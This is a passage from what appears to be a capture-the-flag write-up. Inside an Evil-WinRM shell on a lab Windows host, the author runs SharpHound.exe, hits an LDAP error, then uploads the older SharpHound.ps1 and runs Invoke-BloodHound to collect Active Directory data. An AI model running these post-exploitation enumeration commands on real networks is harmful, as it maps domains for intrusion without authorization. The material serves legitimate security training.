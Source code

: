 Unfortunately, it doesn’t run:

```
*Evil-WinRM* PS C:\programdata> .\sharphound.exe                                                         
2022-02-27T11:04:34.8154550-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote                                        
2022-02-27T11:04:34.8311111-08:00|INFORMATION|Initializing SharpHound at 11:04 AM on 2/27/2022
2022-02-27T11:04:35.0029449-08:00|ERROR|Unable to connect to LDAP, verify your credentials
*Evil-WinRM* PS C:\programdata> .\sharphound.exe -c all                
2022-02-27T11:04:59.5341928-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote               
2022-02-27T11:04:59.5498244-08:00|INFORMATION|Initializing SharpHound at 11:04 AM on 2/27/2022
2022-02-27T11:04:59.6904929-08:00|ERROR|Unable to connect to LDAP, verify your credentials

```

YB1 pointed out to me that there’s [an open issue](https://github.com/BloodHoundAD/SharpHound/issues/10) for this on the SharpHound GitHub.

There typically is also a `SharpHound.ps1`, but it’s missing from GitHub. Looking at the history, it was removed a few weeks ago:

[![image-20220227141846798](https://0xdfimages.gitlab.io/img/image-20220227141846798.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220227141846798.png)

I can go back to the previous commit and download the PowerShell script from there. I’ll upload it and run it:

```
*Evil-WinRM* PS C:\programdata> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\programdata\SharpHound.ps1

Data: 1298852 bytes of 1298852 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\programdata> . .\SharpHound.ps1
*Evil-WinRM* PS C:\programdata> Invoke-BloodHound -CollectionMethod All
*Evil-WinRM* PS C:\programdata> ls

    Directory: C:\programdata

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d---s-       10/21/2021   3:13 AM                Microsoft
d-----       10/21/2021  12:05 AM                regid.1991-06.com.microsoft
d-----        9/15/2018  12:19 AM                SoftwareDistribution
d-----        4/10/2020   5:48 AM                ssh
d-----        4/10/2020  10:49 AM                USOPrivate
d-----        4/10/2020  10:49 AM                USOShared
d-----        8/25/2021   2:57 AM                VMware
-a----        2/27/2022  11:17 AM           8980 20220227111707_BloodHound.zip
-a----        2/27/2022  11:17 AM          10043 MWU2MmE0MDctMjBkZi00N2VjLTliOTMtYThjYTY4MjdhZDA2.bin
-a----        2/27/2022  11:04 AM         883200 SharpHound.exe
-a----        2/27/2022  11:15 AM         974139 SharpHound.ps1

```
